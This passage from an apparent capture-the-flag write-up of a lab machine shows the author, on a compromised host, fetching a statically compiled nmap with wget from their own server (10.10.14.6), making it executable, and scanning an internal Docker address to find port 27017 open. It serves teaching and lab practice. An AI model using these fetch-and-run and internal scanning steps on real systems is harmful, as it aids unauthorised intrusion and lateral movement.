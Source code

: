 Interestingly, there is a 172.17.0.2, it’s just not having any ports forwarded to it:

```

saul@talkative:~$ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.060 ms
--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.060/0.060/0.060/0.000 ms

```

#### 172.17.0.2

I’ll host a [statically compiled](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) `nmap` on my webserver and upload it to Talkative:

```

saul@talkative:/dev/shm$ wget 10.10.14.6/nmap
--2022-08-22 20:15:21--  http://10.10.14.6/nmap
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5944464 (5.7M) [application/octet-stream]
Saving to: ‘nmap’

nmap                100%[===================>]   5.67M  6.41MB/s    in 0.9s    

2022-08-22 20:15:22 (6.41 MB/s) - ‘nmap’ saved [5944464/5944464]

saul@talkative:/dev/shm$ chmod +x nmap

```

Running with the default top 1000 ports finds nothing:

```

saul@talkative:/dev/shm$ ./nmap 172.17.0.2

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2022-08-22 20:15 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.17.0.2
Host is up (0.00013s latency).
All 1182 scanned ports on 172.17.0.2 are closed

Nmap done: 1 IP address (1 host up) scanned in 12.46 seconds

```

Running again with all ports finds a single port:

```

saul@talkative:/dev/shm$ ./nmap 172.17.0.2 --min-rate 10000 -p-

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2022-08-22 20:15 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.17.0.2
Host is up (0.00011s latency).
Not shown: 65534 closed ports
PORT      STATE SERVICE
27017/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 14.55 seconds
```